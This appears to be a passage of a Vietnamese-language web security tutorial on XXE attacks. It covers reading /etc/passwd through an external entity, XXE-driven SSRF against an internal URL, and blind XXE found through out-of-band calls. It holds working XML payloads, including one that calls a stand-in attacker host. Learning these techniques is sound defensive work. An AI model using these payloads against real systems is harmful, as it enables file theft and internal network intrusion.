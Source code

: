 **Giải thích:**
- `<!ENTITY xxe SYSTEM "file:///etc/passwd">` định nghĩa một external entity tên `xxe` chứa nội dung tệp `/etc/passwd`.
- `&xxe;` được chèn vào trong `<productId>` để gọi thực thể đó.

---

### 🌐 Khai thác XXE để thực hiện SSRF

**Mục tiêu:** Ép máy chủ gửi HTTP request đến các URL nội bộ hoặc bên ngoài.

**Cách thực hiện:**
1. Định nghĩa một external entity trong `DOCTYPE` trỏ tới URL mục tiêu.
2. Chèn thực thể đó vào giá trị dữ liệu trong XML.

- Nếu giá trị đó **xuất hiện trong phản hồi**, kẻ tấn công có thể **xem phản hồi từ hệ thống nội bộ** → tương tác hai chiều.
- Nếu **không xuất hiện**, vẫn có thể thực hiện **blind SSRF** → quét mạng nội bộ hoặc truy cập dịch vụ nhạy cảm.

**Ví dụ:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

**Giải thích:**
- `<!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/">` tạo một external entity trỏ tới địa chỉ nội bộ.
- Khi xử lý, máy chủ sẽ gửi HTTP request đến URL này thay cho người dùng.

---

### 👁️ Blind XXE vulnerabilities

- Blind XXE xảy ra khi ứng dụng **không trả về giá trị của external entity** trong phản hồi.  
- Không thể trực tiếp đọc file như XXE thường, nhưng vẫn có thể khai thác với kỹ thuật nâng cao:

**Cách khai thác:**
- Sử dụng **out-of-band (OOB)**: khiến máy chủ gửi dữ liệu ra hệ thống do kẻ tấn công kiểm soát để rò rỉ dữ liệu.
- Cố ý **gây lỗi XML parsing** để lộ thông tin nhạy cảm trong thông báo lỗi. 

---

### 🕵️ Phát hiện blind XXE bằng OOB (Out-Of-Band)

- Bạn thường có thể **phát hiện blind XXE** bằng cách sử dụng **cùng kỹ thuật như các cuộc tấn công XXE SSRF** nhưng **kích hoạt tương tác mạng ngoài băng (OOB)** tới một hệ thống do bạn kiểm soát. Ví dụ, bạn sẽ định nghĩa một **external entity** như sau:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
